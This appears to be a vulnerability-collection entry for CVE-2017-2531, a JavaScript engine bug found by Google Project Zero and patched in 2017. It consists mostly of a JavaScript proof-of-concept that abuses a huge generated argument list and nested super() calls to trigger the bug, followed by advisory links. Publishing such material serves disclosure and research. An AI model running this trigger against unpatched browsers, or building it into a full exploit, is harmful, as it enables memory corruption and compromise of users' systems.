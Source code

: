 # CVE-2017-2531

- Fix: Mar 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
let args = new Array(0x10000);
args.fill();
args = args.map((_, i) => 'a' + i).join(', ');

let gun = eval(`(function () {
    class A {

    }

    class B extends A {
        constructor(${args}) {
            () => {
                ${args};
                super();
            };

            class C {
                constructor() {
                }

                trigger() {
                    (() => {
                        super.x;
                    })();
                }
            }

            return new C();
        }
    }

    return new B();
})()`);

for (let i = 0; i < 0x10000; i++)
    gun.trigger();
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1173)
